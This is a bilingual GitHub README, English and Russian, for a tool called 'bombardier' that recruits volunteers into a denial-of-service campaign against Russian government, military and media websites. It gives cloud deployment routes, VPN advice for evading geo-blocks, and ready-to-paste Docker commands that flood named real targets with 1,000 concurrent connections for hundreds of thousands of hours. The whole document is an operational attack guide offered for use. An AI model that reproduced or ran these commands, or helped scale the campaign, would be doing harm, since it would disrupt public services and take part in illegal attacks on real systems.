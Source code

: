 # bombardier

Fight against propoganda

## CLOUD way :

### If you have kubertnetes cluster `./run_all_kuber.sh`

### GCP for not technical people (easiest)
https://www.notion.so/baaton/atack-php-d533b09a39a84c6db8007049627d03c6

### GCP for technical people
https://github.com/dotiful/bombardier/tree/main/gcp

### AWS with ec2 autoscaling
https://github.com/dotiful/bombardier/tree/main/aws

### Azure 
https://github.com/dotiful/bombardier/tree/main/azure

### Digital Ocean
[Kubernetes Docs](docs/digital_ocean_kubernetes.md) 

### Free russian VPN for Cloud VMs
[Setup instruction](docs/vpn_for_cloud_vms.md)


# Docker way
For a lot of resources or closed for Ukraine so please use Cloud way if cloud unavailable use VPN, otherwise it is not really work now.  
## Инструкция для пользователей Windows и Mac:

1. Установить Docker: https://www.docker.com/products/docker-desktop (Для Mac Пожалуйста, скачайте версию для правильного чипа)
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/dotiful/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Запустить все цели из `resources.txt` 
    - для Windows в проводнике открываем `run_all_windows.bat`, либо перетягиваем файл с целями на скрипт
    - для Linux/Mac `./run_all_docker.sh` 
    - для целей из `resources.txt` (или `./run_all_docker.sh файл-с-целями`)
6. Для выполнения с конкретными целями - Скопировать скрипт (например `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`) и нажать энтер
7. Убедиться, что процесс пошёл
8. Ждать падения рашки

## Instruction for Windows and Mac:

1. Install Docker: https://www.docker.com/products/docker-desktop (For Mac please download the version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Navigate to https://github.com/dotiful/bombardier/blob/main/README.md
4. For best result use a VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Use Windows Command Prompt or the Mac/Linux Terminal and launch as an admin.
6. Attack all targets from resources.txt for Windows - `run_all_windows.bat` for Linux/Mac `./run_all_docker.sh ` for `resources.txt` (or `./run_all_docker.sh your_aim_file`)
7. If you want select aims manually: `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` 
   (Open as many separate CMD consoles as many instances you are going to launch (each line – one script))
8. Make sure that the process started
9. Wait 'till russia fall


### Examples
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://kremlin.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`

### there are a lot of scripts for local usage
for unix  https://github.com/dotiful/bombardier/blob/main/run_all_docker.sh
for winodws https://github.com/dotiful/bombardier/blob/main/run_all_windows.bat

